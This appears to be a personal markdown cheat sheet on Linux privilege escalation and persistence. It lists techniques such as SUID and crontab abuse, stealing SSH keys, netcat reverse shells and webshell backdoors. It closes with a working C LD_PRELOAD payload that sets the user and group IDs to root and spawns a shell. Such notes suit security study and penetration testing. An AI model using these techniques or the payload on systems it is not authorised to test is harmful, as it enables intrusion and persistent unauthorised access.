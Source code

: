 # linux - privesc

## privilege escalation vs exploitation

* exploit some vuln to escalate
* exploitation doesn't have to escalate
* to escalate, you need to exploit

### how to escalate

* abuse crontabs
* abuse suid/guid
* edit/abuse misconfigured files
  * `/etc/sudoers`
  * sshd.config file
* guess/crack pw
* steal/abuse ssh keys
* find other running services
* environment variables
* use known shell exploits
* read command history

## persistence

* reverse shells (netcat)
* setup your own services/backdoors
  * webshell (user is www-data)
* get info about system
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md

```c++
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/ash");
}
```

